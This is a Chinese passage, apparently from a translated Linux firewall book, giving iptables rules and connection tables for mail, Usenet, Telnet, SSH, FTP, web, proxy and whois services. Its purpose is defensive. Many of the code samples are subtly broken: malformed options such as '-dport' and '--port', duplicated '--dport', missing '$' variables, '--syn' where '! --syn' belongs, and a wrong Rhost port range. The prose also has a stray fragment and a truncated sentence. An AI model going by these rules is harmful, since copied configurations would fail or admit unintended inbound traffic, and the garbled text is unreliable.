POP 服务器是黑客利用攻击最常用且最成功的入口点之一。在许多情况下，防火墙规则可以提供一定程度的保护。当然，你也会在服务器配置级别限制访问。一如既往，对于邮件服务器软件而言尤其如此，保持软件安全更新的最新状态至关重要。

如果你使用本地系统作为中央邮件服务器，并运行本地 POP3 服务器为局域网上的本地机器提供访问，那么你不需要此示例中的服务器规则。来自 Internet 的传入连接应被丢弃。如果你需要为有限数量的远程个人提供 POP 服务，接下来的两条规则允许传入连接到你的 POP 服务器。连接限制于你特定客户端的 IP 地址：

```bash
if [ $CONNECTION_TRACKING = "1" ]; then
  $IPT -A INPUT -i $INTERNET -p tcp \
    -s <my.pop.clients> --sport $UNPRIVPORTS \
    -d $IPADDR --port 110 \
    -m state --state NEW -j ACCEPT
fi

$IPT -A INPUT -i $INTERNET -p tcp \
  -s <my.pop.clients> --sport $UNPRIVPORTS \
  -d $IPADDR --port 110 -j ACCEPT

$IPT -A OUTPUT -o $INTERNET -p tcp ! --syn \
  -s $IPADDR --port 110 \
  -d <my.pop.clients> --dport $UNPRIVPORTS -j ACCEPT
```

如果你的站点是一个 ISP，你可以使用网络地址掩码来限制哪些源地址会接受 POP 连接请求：

```bash
POP_CLIENTS="192.168.24.0/24"
```

如果你的是一个住宅站点，只有少数几个远程 POP 客户端，那么客户端地址需要明确列出，并为每个客户端地址设置单独的规则对。

## 为远程客户端托管 IMAP 服务器

IMAP 服务器是黑客利用攻击最常用且最成功的入口点之一。在许多情况下，防火墙规则可以提供一定程度的保护。当然，你也会在服务器配置级别限制访问。一如既往，对于邮件服务器软件而言尤其如此，保持软件安全更新的最新状态至关重要。

如果你使用本地系统作为中央邮件服务器，并运行本地 imap 服务器为局域网上的本地机器提供访问，那么你不需要服务器规则。来自 Internet 的传入连接应被丢弃。如果你确实需要为有限数量的远程个人提供主机 IMAP 服务，接下来的两条规则允许传入连接到你的 IMAP 服务器。连接限制于你特定客户端的 IP 地址：

```bash
if [ "$CONNECTION_TRACKING" = "1" ]; then
  $IPT -A INPUT -i $INTERNET -p tcp \
    -s <my.imap.clients> --sport $UNPRIVPORTS \
    -d $IPADDR --dport 143 \
    -m state --state NEW -j ACCEPT
fi

$IPT -A INPUT -i $INTERNET -p tcp \
  -s <my.imap.clients> --sport $UNPRIVPORTS \
  -d $IPADDR --dport 143 -j ACCEPT

$IPT -A OUTPUT -o $INTERNET -p tcp ! --syn \
  -s $IPADDR --dport 143 \
  -d <my.imap.clients> --dport $UNPRIVPORTS -j ACCEPT
```

如果你的站点是一个 ISP，你可以使用网络地址掩码来限制接受哪些地址的 IMAP 连接请求：

```bash
IMAP_CLIENTS="192.168.24.0/24"
```

如果你的是一个住宅站点，只有少数几个远程 IMAP 客户端，那么客户端地址需要明确列出，并为每个客户端地址设置单独的规则对。

## 7.5.2 访问 Usenet 新闻服务

（TCP NNTP 端口 119）

Usenet 通过运行在 TCP 之上的 NNTP 协议，经由服务端口 119 进行访问。阅读新闻和发布文章由你本地的新闻客户端处理。很少有系统需要服务器规则。表 7.4 列出了 NNTP Usenet 新闻服务的完整客户端/服务器连接协议。

### 表 7.4 NNTP 协议


| 描述 | 协议 | 远程地址 | 远程端口 | 进/出 | 本地地址 | 本地端口 | TCP 标志 |
|---|---|---|---|---|---|---|---|
| 本地客户端查询 | TCP | NEWS SERVER | 119 | 出 | IPADDR | 1024:65535 | 任意 |
| 远程服务器响应 | TCP | NEWS SERVER | 119 | 进 | IPADDR | 1024:65535 | ACK |
| 远程客户端查询 | TCP | NNTP clients | 1024:65535 | 进 | IPADDR | 119 | 任意 |
| 本地服务器响应 | TCP | NNTP clients | 1024:65535 | 出 | IPADDR | 119 | ACK |
| 本地服务器查询 | TCP | News feed | 119 | 出 | IPADDR | 1024:65535 | 任意 |
| 远程服务器响应 | TCP | News feed | 119 | 进 | IPADDR | 1024:65535 | ACK |

### 作为 Usenet 客户端阅读和发布新闻

客户端规则允许连接到你的 ISP 新闻服务器。阅读和发布文章都被这些规则所允许：

```bash
NEWS_SERVER="my.news.server" # 外部新闻服务器（如果有）
if [ "$CONNECTION_TRACKING" = "1" ]; then
  $IPT -A OUTPUT -o $INTERNET -p tcp \
    -s $IPADDR --sport $UNPRIVPORTS \
    -d $NEWS_SERVER --dport 119 -m state --state NEW -j ACCEPT
fi

$IPT -A OUTPUT -o $INTERNET -p tcp \
  -s $IPADDR --sport $UNPRIVPORTS \
  -d $NEWS_SERVER --dport 119 -j ACCEPT

$IPT -A INPUT -i $INTERNET -p tcp ! --syn \
  -s $NEWS_SERVER --sport 119 \
  -d $IPADDR --dport $UNPRIVPORTS -j ACCEPT
```

### 为远程客户端托管 Usenet 新闻服务器

小型站点不太可能为外部世界托管新闻服务器。甚至托管本地新闻服务器也不太可能。对于罕见的例外情况，应配置服务器规则以仅允许来自一组客户端的传入连接：

```bash
if [ "$CONNECTION_TRACKING" = "1" ]; then
  $IPT -A INPUT -i $INTERNET -p tcp \
    -s <my.news.clients> --sport $UNPRIVPORTS \
    -d $IPADDR --dport 119 \
    -m state --state NEW -j ACCEPT
fi

$IPT -A INPUT -i $INTERNET -p tcp \
  -s <my.news.clients> --sport $UNPRIVPORTS \
  -d $IPADDR --dport 119 -j ACCEPT

$IPT -A OUTPUT -o $INTERNET -p tcp ! \
  -s $IPADDR --sport 119 \
  -d <my.news.clients> --dport $UNPRIVPORTS -j ACCEPT
```

### 允许本地 Usenet 服务器接收同级新闻源

小型、基于家庭的站点不太可能与 ISP 建立同级新闻源关系。虽然过去新闻服务器对一般 Internet 用户来说相对容易访问，但由于垃圾邮件（SPAM）和服务器负载问题，如今开放的服务器寥寥无几。
如果你的站点足够大或足够富裕以托管通用 Usenet 服务器，你必须从某处获取新闻源。接下来的规则允许你本地的新闻服务器从远程服务器接收其新闻源。本地服务器使用主机的名称或地址作为客户端连接到远程服务器。同级新闻源规则与普通客户端之间的唯一区别

```bash
if [ "$CONNECTION_TRACKING" = "1" ]; then
  $IPT -A OUTPUT -o $INTERNET -p tcp \
    -s $IPADDR --sport $UNPRIVPORTS \
    -d $MY_NEWS_FEED --dport 119 -m state --state NEW -j ACCEPT
fi

$IPT -A OUTPUT -o $INTERNET -p tcp \
  -s $IPADDR --sport $UNPRIVPORTS \
  -d $MY_NEWS_FEED --dport 119 -j ACCEPT

$IPT -A INPUT -i $INTERNET -p tcp ! \
  -s <my.news.feed> --sport 119 \
  -d $IPADDR --dport $UNPRIVPORTS -j ACCEPT
```

### 7.5.3 Telnet（TCP 端口 23）

Telnet 多年来一直是 Internet 上远程登录的既定标准方式。随着 Internet 社区性质的变化，telnet 越来越被视为一种不安全的服务，因为它以 ASCII 明文形式传输数据。如果你有选择，你始终应该使用加密服务，如 SSH，而不是 telnet。然而，Microsoft Windows 不提供 SSH 服务，只提供 telnet——如此多的安全承诺！
此处的客户端和服务端规则允许从任何地方访问。如果你使用 telnet，在包过滤层面通常可以将外部地址限制为非常特定的子集。表 7.5 列出了 telnet 服务完整的客户端/服务端连接协议。

### 表 7.5 Telnet 协议

| 描述 | 协议 | 远程地址 | 远程端口 | 进/出 | 本地地址 | 本地端口 | TCP 标志 |
| :--- | :--- | :--- | :--- | :--- | :--- | :--- | :--- |
| 本地客户端请求 | TCP | 任何位置 | 23 | 出 | IPADDR | 1024:65535 | 任意 |
| 远程服务端响应 | TCP | 任何位置 | 23 | 进 | IPADDR | 1024:65535 | ACK |
| 远程客户端请求 | TCP | Telnet 客户端 | 1024:65535 | 进 | IPADDR | 23 | 任意 |
| 本地服务端响应 | TCP | Telnet 客户端 | 1024:65535 | 出 | IPADDR | 23 | ACK |

### 允许访问远程站点的出站连接

如果你需要使用 telnet 访问远程系统（如今 SSH 服务器非常普遍），下面两条规则允许出站连接到远程站点。如果你的站点有多个用户，在尽可能的时候，应将出站连接限制在用户拥有账户的特定站点上，而不是允许出站连接到任何地方：

```bash
if [ "$CONNECTION_TRACKING" = "1" ]; then
  $IPT -A OUTPUT -o $INTERNET -p tcp \
    -s $IPADDR --sport $UNPRIVPORTS \
    -dport 23 -m state --state NEW -j ACCEPT
fi

$IPT -A OUTPUT -o $INTERNET -p tcp \
    -s $IPADDR --sport $UNPRIVPORTS \
    -dport 23 -j ACCEPT

$IPT -A INPUT -i $INTERNET -p tcp ! --syn \
    --sport 23 \
    -d $IPADDR --dport $UNPRIVPORTS -j ACCEPT
```

### 允许访问本地服务器的入站连接

即使你需要客户端访问远程服务器，你也可能不需要允许入站连接连接到你的 telnet 服务器。如果需要，下面两条规则允许入站连接连接到你的服务器：


```bash
if [ "$CONNECTION_TRACKING" = "1" ]; then
  $IPT -A INPUT -i $INTERNET -p tcp \
    --sport $UNPRIVPORTS \
    -d $IPADDR --dport 23 \
    -m state --state NEW -j ACCEPT
fi

$IPT -A INPUT -i $INTERNET -p tcp \
    --sport $UNPRIVPORTS \
    -d $IPADDR --dport 23 -j ACCEPT

$IPT -A OUTPUT -o $INTERNET -p tcp ! --syn \
    -s $IPADDR --sport 23 \
    --dport $UNPRIVPORTS -j ACCEPT
```

相比于允许来自任何地方的连接，更好的做法是为每个入站连接可能合法源头的特定主机或网络定义服务器规则。SSH 客户端几乎可以在所有当前使用的系统中免费获取。

## 7.5 启用常见 TCP 服务

### 7.5.4 SSH (TCP 端口 22)

随着 2000 年 RSA 专利的过期，OpenSSH（安全外壳协议）已包含在 Linux 发行版中。它也可以从[源]免费获取。SSH 通常被认为比 telnet 更受青睐的远程登录访问替代方案，因为连接的两端都支持主机的身份验证密钥，并且数据是加密的。此外，SSH 不仅仅是一个远程登录服务。它可以在远程站点之间自动引导 X 窗口连接，并且 FTP 和其他基于 TCP 的连接可以通过更安全 的 SSH 连接进行传输。只要连接的另一端允许 SSH 连接，就有可能通过 SSH 将所有 TCP 连接路由通过防火墙。因此，SSH 在某种程度上是穷人的虚拟专用网络 (VPN)。

SSH 使用的端口高度可配置。默认情况下，连接在客户端的非特权端口和服务器的指定服务端口 22 之间发起。SSH 客户端仅使用非特权端口。此示例中的规则适用于默认的 SSH 端口：

```bash
SSH_PORTS="1024:65535" # RSA 身份验证
```

或者

```bash
SSH_PORTS="1024:65535" # Rhost 身份验证
```

此处的客户端和服务端规则允许从任何地方访问。在实践中，你会将外部地址限制为特定的子集，特别是因为连接的两端都必须配置以识别每个单独的用户账户用于身份验证。表 7.6 列出了 SSH 服务完整的客户端/服务端连接协议。

#### 表 7.6 SSH 协议

| 描述 | 协议 | 远程地址 | 远程端口 | 进/出 | 本地地址 | 本地端口 | TCP 标志 |
| :--- | :--- | :--- | :--- | :--- | :--- | :--- | :--- |
| 本地客户端请求 | TCP | 任何位置 | 22 | 出 | IPADDR | 1024:65535 | 任意 |
| 远程服务端响应 | TCP | 任何位置 | 22 | 进 | IPADDR | 1024:65535 | ACK |
| 本地客户端请求 | TCP | 任何位置 | 22 | 出 | IPADDR | 513:1023 | 任意 |
| 远程服务端响应 | TCP | 任何位置 | 22 | 进 | IPADDR | 513:1023 | ACK |
| 远程客户端请求 | TCP | SSH 客户端 | 1024:65535 | 进 | IPADDR | 22 | 任意 |
| 本地服务端响应 | TCP | SSH 客户端 | 1024:65535 | 出 | IPADDR | 22 | ACK |
| 远程客户端请求 | TCP | SSH 客户端 | 513:1023 | 进 | IPADDR | 22 | 任意 |
| 本地服务端响应 | TCP | SSH 客户端 | 513:1023 | 出 | IPADDR | 22 | ACK |

#### 允许客户端访问远程 SSH 服务器

这些规则允许你使用 SSH 连接到远程站点：

```bash
if [ "$CONNECTION_TRACKING" = "1" ]; then
  $IPT -A OUTPUT -o $INTERNET -p tcp \
    -s $IPADDR --sport $SSH_PORTS \
    -dport 22 -m state --state NEW -j ACCEPT
fi

$IPT -A OUTPUT -o $INTERNET -p tcp \
    -s $IPADDR --sport $SSH_PORTS \
    -dport 22 -j ACCEPT

$IPT -A INPUT -i $INTERNET -p tcp ! --syn \
    --sport 22 \
    -d $IPADDR --dport $SSH_PORTS -j ACCEPT
```

#### 允许远程客户端访问本地 SSH 服务器

这些规则允许入站连接连接到你的 SSH 服务器：

```bash
if [ "$CONNECTION_TRACKING" = "1" ]; then
  $IPT -A INPUT -i $INTERNET -p tcp \
    --sport $SSH_PORTS \
    -d $IPADDR --dport 22 \
    -m state --state NEW -j ACCEPT
fi

$IPT -A INPUT -i $INTERNET -p tcp \
    --sport $SSH_PORTS \
    -d $IPADDR --dport 22 -j ACCEPT

$IPT -A OUTPUT -o $INTERNET -p tcp ! --syn \
    -s $IPADDR --sport 22 \
    --dport $SSH_PORTS -j ACCEPT
```

### 7.5.5 FTP (TCP 端口 21)

FTP 仍然是两台联网机器之间传输文件的最常见方式之一。基于 Web 的浏览器 FTP 界面也变得很常见。与 telnet 类似，FTP 通过网络以明文形式发送身份验证凭据和数据通信。此外，FTP 也被认为是一个固有的不安全协议。SFTP 和 SCP 在这方面提供了对 FTP 的改进。

FTP 常被用作对防火墙或 NAT 不友好的协议的经典示例。传统的通过 TCP 通信的客户端/服务端应用程序工作方式都相同。客户端发起连接到服务器的请求。

表 7.7 列出了 FTP 服务完整的客户端/服务端连接协议。

#### 表 7.7 FTP 协议

| 描述 | 协议 | 远程地址 | 远程端口 | 进/出 | 本地地址 | 本地端口 | TCP 标志 |
| :--- | :--- | :--- | :--- | :--- | :--- | :--- | :--- |
| 本地客户端查询 | TCP | 任何位置 | 21 | 出 | IPADDR | 1024:65535 | 任意 |
| 远程服务端响应 | TCP | 任何位置 | 21 | 进 | IPADDR | 1024:65535 | ACK |
| 远程服务端端口数据通道 | TCP | 任何位置 | 20 | 进 | IPADDR | 1024:65535 | 任意 |
| 本地客户端端口数据通道 | TCP | 任何位置 | 20 | 出 | IPADDR | 1024:65535 | ACK |
| 本地客户端被动数据通道请求 | TCP | 任何位置 | 1024:65535 | 出 | IPADDR | 1024:65535 | 任意 |
| 远程服务端被动数据通道 | TCP | 任何位置 | 1024:65535 | 进 | IPADDR | 1024:65535 | ACK |
| 远程客户端请求 | TCP | 任何位置 | 1024:65535 | 进 | IPADDR | 21 | 任意 |
| 本地服务端响应 | TCP | 任何位置 | 1024:65535 | 出 | IPADDR | 21 | ACK |
| 本地服务端端口数据通道响应 | TCP | 任何位置 | 1024:65535 | 出 | IPADDR | 20 | 任意 |
| 远程客户端端口数据通道响应 | TCP | 任何位置 | 1024:65535 | 进 | IPADDR | 20 | ACK |
| 远程客户端被动数据通道请求 | TCP | 任何位置 | 1024:65535 | 进 | IPADDR | 1024:65535 | 任意 |
| 本地服务端被动数据通道响应 | TCP | 任何位置 | 1024:65535 | 出 | IPADDR | 1024:65535 | ACK |


FTP 偏离了标准的 TCP 客户端/服务端通信模型。FTP 依赖于两个独立的连接，一个用于控制或命令流，另一个用于传输数据文件和其他信息（如目录列表）。控制流通过传统的 TCP 连接传输。客户端绑定到一个高非特权端口，并向绑定到端口 21 的 FTP 服务器发送连接请求。此连接用于传输命令。

就第二个数据连接而言，FTP 有两种在客户端和服务器之间交换数据的备用模式：`Port mode` 和 `Passive mode`。`Port mode` 是原始的默认机制。客户端告知服务器监听哪个辅助非特权端口。服务器从端口 20 向客户端指定的非特权端口发起数据连接。

这是与标准客户端/服务端模型的偏差。服务器正在向客户端发起辅助连接。这就是为什么 FTP 是一个需要防火墙和 NAT 都支持 ALG（应用层网关）的协议。防火墙必须考虑到从端口 20 到本地非特权端口的入站连接。NAT 必须考虑到用于辅助数据流连接的目的地地址。客户端不知道其网络经过了 NAT。发送给服务器的端口和地址是本地、NAT 之前的端口和地址。

被动模式类似于传统的客户端/服务端模型，其中客户端为数据流发起辅助连接。同样，客户端从高非特权端口发起连接。服务器不为数据连接绑定到端口 20；相反，客户端连接到服务器指定的特定端口。

ever. 相反，服务器告诉客户端应将连接请求指向哪个高权限端口。数据流在客户端和服务器的非特权端口之间传输。

就传统的包过滤而言，防火墙必须允许所有非特权端口之间的 TCP 流量。连接状态跟踪和 ALG（应用层网关）支持允许防火墙将次要连接与特定的 FTP 控制流关联起来。由于客户端发起了两个连接，因此客户端侧的 NAT（网络地址转换）不是问题。

## 允许出站客户端访问远程 FTP 服务器

几乎所有站点都希望拥有访问远程文件仓库的 FTP 客户端权限。大多数人希望启用到远程服务器的出站客户端连接。

### 通过控制通道的出站 FTP 请求

以下两条规则允许到远程 FTP 服务器的出站连接：

```
if [ "$CONNECTION_TRACKING" = "1" ]; then
$IPT -A OUTPUT -o $INTERNET -p tcp \
  -s $IPADDR --sport $UNPRIVPORTS \
  -dport 21 -m state --state NEW -j ACCEPT
fi
```

```
$IPT -A OUTPUT -o $INTERNET -p tcp \
  -s $IPADDR --sport $UNPRIVPORTS \
  -dport 21 -j ACCEPT
```

```
$IPT -A INPUT -i $INTERNET -p tcp ! --syn \
  -sport 21 \
  -d $IPADDR --dport $UNPRIVPORTS -j ACCEPT
```

```
$IPT -A OUTPUT -o $INTERNET -p tcp \
  -s $IPADDR --sport $UNPRIVPORTS \
  --dport 20 -j ACCEPT
```

### 端口模式的 FTP 数据通道

以下两条规则允许标准的数据通道连接，在这种模式下，远程服务器会回拨以建立从服务器端口 20 到客户端指定的特权端口的数据连接。

```
if [ "$CONNECTION_TRACKING" = "1" ]; then
$IPT -A INPUT -i $INTERNET -p tcp \
  -sport 20 \
  -d $IPADDR --dport $UNPRIVPORTS \
  -m state --state NEW -j ACCEPT
fi
```

```
$IPT -A INPUT -i $INTERNET -p tcp \
  -sport 20 \
  -d $IPADDR --dport $UNPRIVPORTS -j ACCEPT
```

```
$IPT -A OUTPUT -o $INTERNET -p tcp ! --syn \
  -s $IPADDR --sport $UNPRIVPORTS \
  --dport 20 -j ACCEPT
```

这种不寻常的回拨行为，即远程服务器与您的客户端建立次要连接，正是使得 FTP 在包过滤层面上难以保障安全的原因之一。

### 被动模式的 FTP 数据通道

以下两条规则允许大多数 Web 浏览器使用的新式被动数据通道模式：

```
if [ "$CONNECTION_TRACKING" = "1" ]; then
$IPT -A OUTPUT -o $INTERNET -p tcp \
  -s $IPADDR --sport $UNPRIVPORTS \
  --dport $UNPRIVPORTS -m state --state NEW -j ACCEPT
fi
```

```
$IPT -A OUTPUT -o $INTERNET -p tcp \
  -s $IPADDR --sport $UNPRIVPORTS \
  --dport $UNPRIVPORTS -j ACCEPT

$IPT -A INPUT -i $INTERNET -p tcp ! --syn \
  --sport $UNPRIVPORTS \
  -d $IPADDR --dport $UNPRIVPORTS -j ACCEPT
```

被动模式被认为比端口模式更安全，因为即使连接是在两个非特权端口之间建立的，FTP 客户端也发起了控制和数据连接。并且，如前所述，被动模式不像端口模式那样在客户端侧存在 NAT 问题。

## 允许访问您的本地 FTP 服务器

是否向公众提供 FTP 服务是一个艰难的决定。虽然互联网上的 FTP 站点很常见，但 FTP 服务器配置需要非常谨慎。存在许多可能的 FTP 安全漏洞。

如果您的目标是提供对机器上某些文件的通用只读访问，您可以考虑通过 Web 服务器使这些文件可用。如果您的目标允许从外部向您的机器上传文件，那么应在防火墙级别、inetd 配置级别、tcp_wrappers 级别以及 FTP 配置级别上严格限制 FTP 服务器访问。

无论如何，如果您决定提供 FTP 服务，并决定允许文件传输，则不应允许通过匿名 FTP 进行写入访问。对您的文件系统的远程写入访问应仅允许来自特定的已认证 FTP 用户账户、特定的远程站点，以及经过仔细控制和限制的、保留在您文件系统中的 FTP 区域。在 chroot 环境中托管 FTP 区域会更好。

### 入站 FTP 请求

以下两条规则允许入站连接到您的 FTP 服务器：

```
if [ "$CONNECTION_TRACKING" = "1" ]; then
$IPT -A INPUT -i $INTERNET -p tcp \
  --sport $UNPRIVPORTS \
  -d $IPADDR --dport 21 \
  -m state --state NEW -j ACCEPT
fi
```

```
$IPT -A INPUT -i $INTERNET -p tcp \
  --sport $UNPRIVPORTS \
  -d $IPADDR --dport 21 -j ACCEPT

$IPT -A OUTPUT -o $INTERNET -p tcp ! --syn \
  -s $IPADDR --dport 21 \
  --dport $UNPRIVPORTS -j ACCEPT
```

### 端口模式 FTP 数据通道的响应

以下两条规则允许 FTP 服务器回拨远程客户端并建立次要数据通道连接：

```
if [ "$CONNECTION_TRACKING" = "1" ]; then
$IPT -A OUTPUT -o $INTERNET -p tcp \
  -s $IPADDR --dport 20 \
  --dport $UNPRIVPORTS -m state --state NEW -j ACCEPT
fi
```

```
$IPT -A OUTPUT -o $INTERNET -p tcp \
  -s $IPADDR --dport 20 \
  --dport $UNPRIVPORTS -j ACCEPT
```

```
$IPT -A INPUT -i $INTERNET -p tcp ! --syn \
  --sport $UNPRIVPORTS \
  -d $IPADDR --dport 20 -j ACCEPT
```

### 被动模式 FTP 数据通道的响应

以下两条规则允许远程 FTP 客户端与本地服务器建立次要数据通道连接：

```
if [ "$CONNECTION_TRACKING" = "1" ]; then
$IPT -A INPUT -i $INTERNET -p tcp \
  --sport $UNPRIVPORTS \
  -d $IPADDR --dport $UNPRIVPORTS \
  -m state --state NEW -j ACCEPT
fi
```


```
$IPT -A INPUT -i $INTERNET -p tcp \
  --sport $UNPRIVPORTS \
  -d $IPADDR --dport $UNPRIVPORTS -j ACCEPT
```

```
$IPT -A OUTPUT -o $INTERNET -p tcp ! --syn \
  -s $IPADDR --sport $UNPRIVPORTS \
  --dport $UNPRIVPORTS -j ACCEPT
```

## 注意

不要在互联网上使用 TFTP！TFTP 提供的是 FTP 服务的简化版、未认证的 UDP 版本。它旨在用于从可信主机通过本地网络向路由器和无盘工作站加载引导软件。有些人将 TFTP 误认为是 FTP 的替代品。绝对不要在互联网上使用它。最好根本不要在系统中安装 TFTP。

## 5.7.6 Web 服务

Web 服务基于超文本传输协议 `HTTP`。客户端和服务器连接使用标准的 TCP 约定。除了标准的通用 HTTP 访问外，还有几种更高级的专用通信协议，包括通过 SSL 或 TLS 的安全访问，以及通过 ISP 提供的 Web 代理进行的访问。这些不同的协议使用不同的端口。

### 标准 HTTP 访问 (TCP 端口 80)

在正常使用中，Web 服务通过 `http` 服务端口 `80` 提供。表 7.8 列出了 HTTP Web 服务的客户端/服务器连接协议。

#### 7.8 HTTP 协议

| 描述 | 协议 | 远程地址 | 远程端口 | 本地输入/输出 | 本地地址 | 本地端口 | TCP 标志 |
| --- | --- | --- | --- | --- | --- | --- | --- |
| 本地客户端请求 | TCP | ANYWHERE | 80 | 输出 | `$IPADDR` | 1024:65535 | 任意 | |
| 远程服务器响应 | TCP | ANYWHERE | 80 | 输入 | `$IPADDR` | 1024:65535 | ACK | |
| 远程客户端请求 | TCP | ANYWHERE | 1024:65535 | 输入 | `$IPADDR` | 80 | 任意 | |
| 本地服务器响应 | TCP | ANYWHERE | 1024:65535 | 输出 | `$IPADDR` | 80 | ACK | |

### 作为客户端访问远程站点

在当今世界，家庭站点不想通过 Web 浏览器访问万维网几乎是不可想象的。以下两条规则允许访问远程 Web 服务器：

```
if [ "$CONNECTION_TRACKING" = "1" ]; then
$IPT -A OUTPUT -o $INTERNET -p tcp \
  -s $IPADDR --sport $UNPRIVPORTS \
  --dport 80 -m state --state NEW -j ACCEPT
fi
```

```
$IPT -A OUTPUT -o $INTERNET -p tcp \
  -s $IPADDR --sport $UNPRIVPORTS \
  --dport 80 -j ACCEPT

$IPT -A INPUT -i $INTERNET -p tcp ! --syn \
  --sport 80 \
  -d $IPADDR --dport $UNPRIVPORTS -j ACCEPT
```

### 允许远程访问本地 Web 服务器

如果您决定运行自己的 Web 服务器并托管一个公共网站，以下通用服务器规则允许所有典型的入站访问到您的站点。大多数人托管网站只需要这些设置：

```
if [ "$CONNECTION_TRACKING" = "1" ]; then
$IPT -A INPUT -i $INTERNET -p tcp \
  --sport $UNPRIVPORTS \
  -d $IPADDR --dport 80 \
  -m state --state NEW -j ACCEPT
fi
```

```
$IPT -A INPUT -i $INTERNET -p tcp \
  --sport $UNPRIVPORTS \
  -d $IPADDR --dport 80 -j ACCEPT

$IPT -A OUTPUT -o $INTERNET -p tcp ! --syn \
  -s $IPADDR --sport 80 \
  --dport $UNPRIVPORTS -j ACCEPT
```

### 安全 Web 访问 (SSL 和 TLS) (TCP 端口 443)

安全套接字层 `SSL` 和传输层安全 `TLS` 用于安全、加密的 Web 访问。这些协议使用 TCP 端口 `443`。如果您去商业网站购买东西、使用在线银行服务或进入需要输入个人信息的受保护 Web 区域，您最常会遇到这些服务。随 Red Hat Linux 7.1 提供的 Apache Web 服务器实现了 OpenSSL 支持。表 7.9 列出了该服务的完整客户端/服务器连接协议。

#### 表 7.9 SSL 和 TLS 协议

| 描述 | 协议 | 远程地址 | 远程端口 | 入/出 | 本地地址 | 本地端口 | TCP 标志 |
|---|---|---|---|---|---|---|---|
| 本地客户端请求 | TCP | 任意位置 | 443 | 出 | IPADDR | 1024:65535 | 任意 |
| 远程服务器响应 | TCP | 任意位置 | 443 | 入 | IPADDR | 1024:65535 | ACK |
| 远程客户端请求 | TCP | 任意位置 | 1024:65535 | 入 | IPADDR | 443 | 任意 |
| 本地服务器响应 | TCP | 任意位置 | 1024:65535 | 出 | IPADDR | 443 | ACK |

### 作为客户端通过 SSL 或 TLS 访问远程网站

大多数人最终都会希望客户端能够访问安全网站：

```bash
if [ "CONNECTION_TRACKING" = "1" ]; then
$IPT -A OUTPUT -o $INTERNET -p tcp \
  -s IPADDR --sport $UNPRIVPORTS \
  --dport 443 -m state NEW -j ACCEPT
fi

$IPT -A OUTPUT -o $INTERNET -p tcp \
  -s IPADDR --sport $UNPRIVPORTS \
  --dport 443 -j ACCEPT

$IPT -A INPUT -i $INTERNET -p tcp ! --syn \
  --sport 443 \
  -d IPADDR --dport $UNPRIVPORTS -j ACCEPT
```

### 允许对本地 SSL 或 TLS Web 服务器的远程访问

如果你使用某种形式的电子商务或拥有经过用户验证的 Web 区域，你很可能希望允许入站连接到网站的加密保护区域。否则，你不需要本地服务器规则。

Linux 自带的 OpenSSL 和标准的 SSL 支持包均可用于 Apache Web 服务器。有关更多信息，请参阅 `http://www.apache.org/`。

以下规则允许使用 SSL 或 TLS 协议对您的 Web 服务器进行入站访问：

```bash
if [ "CONNECTION_TRACKING" = "1" ]; then
$IPT -A INPUT -i $INTERNET -p tcp \
  --sport $UNPRIVPORTS \
  -d $IPADDR --dport 443 \
  -m state --state NEW -j ACCEPT
fi

$IPT -A INPUT -i $INTERNET -p tcp \
  --sport $UNPRIVPORTS \
  -d $IPADDR --dport 443 -j ACCEPT

$IPT -A OUTPUT -o $INTERNET -p tcp ! --syn \
  -s $IPADDR --dport 443 \
  --dport $UNPRIVPORTS -j ACCEPT
```

## 7.5 启用常见 TCP 服务

### Web 代理访问 (TCP 端口 8008, 8080)

公开可访问的 Web 服务器代理最常见于 ISP（互联网服务提供商）。作为客户，您配置浏览器使用远程代理服务。Web 代理通过 ISP 定义的用于此目的的两个特权端口之一进行访问，即端口 `8008` 或 `8080`。作为回报，当页面在您的 ISP 服务器上很容易缓存时，您将获得更快的页面访问速度，并且通过代理访问远程站点具有相对的匿名性。您的连接不是直接的，而是由您的 ISP 的代理代替您完成的。表 7.10 列出了 Web 代理服务的完整客户端/服务器连接协议。

#### 表 7.10 Web 代理协议

| 描述 | 协议 | 远程地址 | 远程端口 | 入/出 | 本地地址 | 本地端口 | TCP 标志 |


|---|---|---|---|---|---|---|---|

| 本地客户端请求 | TCP | WEB PROXY SERVER | WEB PROXY PORT | 出 | IPADDR | 1024:65535 | |

| 远程服务器响应 | TCP | WEB PROXY SERVER | WEB PROXY PORT | 入 | IPADDR | 1024:65535 | ACK |

如果您使用 ISP 提供的 Web 代理服务，具体的服务器地址和端口号将由您的 ISP 定义。客户端规则如下：

```bash
WEB_PROXY_SERVER="my.proxy" # ISP Web proxy server, if any
WEB_PROXY_PORT="my.proxy.port" # ISP Web proxy port, if any
# typically 8008 or 8080

if [ "$CONNECTION_TRACKING" = "1" ]; then
$IPT -A OUTPUT -o $INTERNET -p tcp \
  -s $IPADDR --sport $UNPRIVPORTS \
  -d $WEB_PROXY_SERVER --dport $WEB_PROXY_PORT \
  -m state --state NEW -j ACCEPT
fi
```

```bash
$IPT -A INPUT -i $INTERNET -p tcp --syn \
  -s $WEB_PROXY_SERVER --sport $WEB_PROXY_PORT \
  -d $IPADDR --dport $UNPRIVPORTS -j ACCEPT
```

### 7.5.7 Whois (TCP 端口 43)

whois 程序访问 InterNIC 注册服务数据库。表 7.11 列出了 whois 服务的完整客户端/服务器连接协议。

## 表 7.11 Whois 协议

| 描述 | 协议 | 远程地址 | 远程端口 | 入/出 | 本地地址 | 本地端口 | TCP 标志 |

|---|---|---|---|---|---|---|---|

| 本地客户端请求 | TCP | 任意位置 | 43 | 出 | IPADDR | 1024:65535 | 任意 |

| 远程服务器响应 | TCP | 任意位置 | 43 | 入 | IPADDR | 1024:65535 | ACK |

这两条规则使您可以查询官方远程服务器：

```bash
if [ "$CONNECTION_TRACKING" = "1" ]; then
$IPT -A OUTPUT -o $INTERNET -p tcp \
  -s $IPADDR --sport $UNPRIVPORTS \
  --dport 43 -m state --state NEW -j ACCEPT
fi

$IPT -A INPUT -i $INTERNET -p tcp --syn \
  --sport 43 \
  -d $IPADDR --dport $UNPRIVPORTS -j ACCEPT
```

### 7.5.8 RealAudio, RealVideo, 和 QuickTime

(TCP 端口 554 和 7070)

RealAudio、RealVideo 和 QuickTime 使用相同的端口。对服务器的控制连接建立在实时流协议 (RTSP) 之上。有关该协议的更多信息，请参阅 RFC 2326，“Real Time Streaming Protocol (RTSP)”。传入的数据流建立在实时传输协议 (RTP) 之上。有关 RTP 协议的更多信息，请参阅 RFC 3550，“RTP: A Transport Protocol for Real-Time Applications”。有关 RealAudio 和 RealVideo 防火墙要求的更多信息，请访问 http://www.realnetworks.com。

## 启用常见 TCP 服务

